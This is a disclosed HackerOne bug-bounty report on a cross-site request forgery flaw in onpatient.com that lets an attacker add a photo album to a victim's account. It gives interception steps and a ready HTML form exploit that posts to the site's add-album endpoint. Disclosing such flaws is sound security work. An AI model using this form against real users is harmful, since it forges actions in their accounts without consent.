 # CSRF  Add Album On  onpatient.com 

## Report Details
- **Report ID**: 99647
- **URL**: https://hackerone.com/reports/99647
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2015-11-14T12:15:29.158Z
- **Disclosed**: 2016-08-31T04:44:13.907Z

## Reporter
- **Username**: hussain_0x3c
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: drchrono

## Vulnerability Information
**Hi**

I'm  Found  Bug CSRF It is Possible To Add  Album  By Attacker on onpatient.com 

Steps to verify
----
* . Login as attacker 
* . Go to  photos and  click  **add album**
* . rename  album for example :- **hacking** . 
* . intercept this request add using burp proxy or any other tool  (you can see **X-CSRFToken**  and  **sessionid**)  attacker can add request  on post  without  **X-CSRFToken**
* . Create  Form HTML  Exploit   **Add album**
* . Send to **Victim User**

Form Exploitation 
---
~~~
<html>
<body>
<form action="https://onpatient.com/photos/add_album/" method="POST">
<input type="hidden" name="name" value="hacking" />
<input type="submit" value="Add album Hacking" />
</form>
</body>
</html>
~~~
**Response** :- {"album": idalbum, "success": true} 




**Regards**
**Hussain**



## Attachments
- form-csrf.html
